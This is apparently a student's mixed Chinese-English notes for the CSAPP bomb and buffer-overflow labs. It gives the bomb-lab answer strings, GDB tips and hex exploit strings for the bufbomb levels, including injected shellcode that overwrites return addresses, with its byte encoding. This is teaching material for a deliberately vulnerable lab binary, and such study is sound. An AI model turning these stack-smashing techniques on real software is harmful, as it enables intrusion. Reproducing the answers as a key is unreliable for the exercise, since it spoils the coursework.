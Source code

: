 
----------------------------------------------------------

#### Lab

#### Lab 2
Solutions:
Border relations with Canada have never been better.
1 2 4 8 16 32
1 311或其他
4 389
7 0
IONEFG (flyers)
4 3 2 1 6 5

Intel指令集
	movslq
	https://blog.csdn.net/qq_38712943/article/details/81358799
info r
p /x *0x402470 + 8
b phase_4
disas phase_4
pmap
pvector

打印寄存器
    p $rax
注意:
	mov 0x20(%rsp),%rbx 代表赋地址
	lea 0x20(%rsp),%rbx 代表赋值
	
#### Lab 3

不可修改的register: rip(除了ret)
https://www.cnblogs.com/aliflycoris/p/5746143.html
https://www.jianshu.com/p/dc41c84cef17
https://www.cnblogs.com/yhjoker/p/7623950.html

三个与栈和下一条指令有关的指令
	call=push rip; jmp 0x____
	leave 恢复保存的rbp,rsp,即 movl rbp, rsp; pop rbp
	ret = pop rip
注意事项:
	mov 0x4, %eax #move value of memory[0x4] to eax
	mov $0x4, %eax #move 0x4 to eax

~~~
按照userid=novik实验: 
./bufbomb -u novik
    0x08048c18 smoke
>>>> smoke.txt
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
    00 00 00 00 18 8c 04 08

0x08048c42 fizz
>>>> fizz.txt
    -u novik
	cookie 0x2de1951f
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
    00 00 00 00 42 8c 04 08 00 00
	00 00 1f 95 e1 2d
>>>> bang.txt
    -u novik
	0x55683658
>>>> bang.S
movl $0x2de1951f, 0x804d100
movl 0x804d100, %eax
movl %eax, 4(%esp)
push $0x08048c9d
ret
->
c7 05 00 d1 04 08 1f 
95 e1 2d 
a1 00 d1 04 08       
89 44 24 04          
68 9d 8c 04 08       
c3
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
58 36 68 55
>>>> dynamite.txt
buf 0x55683658
ret 0x08048dbe
cookie 0x2de1951f
movl $0x2de1951f, %eax
movl $0x556836b0, %ebp
push $0x08048dbe
ret
>>>> shell
cat dynamite.txt | ./hex2raw | ./bufbomb -u novik
~~~

#### Lab 4


#### References
GDB调试技巧
	https://blog.csdn.net/transmaple/article/details/48421891

b *0x0000000000400fdf
简书: https://www.jianshu.com/p/33eb51b2024e
Postscript file: GDB: Quick reference

[第三版的相关实验解答和笔记](https://github.com/Exely/CSAPP-Labs)
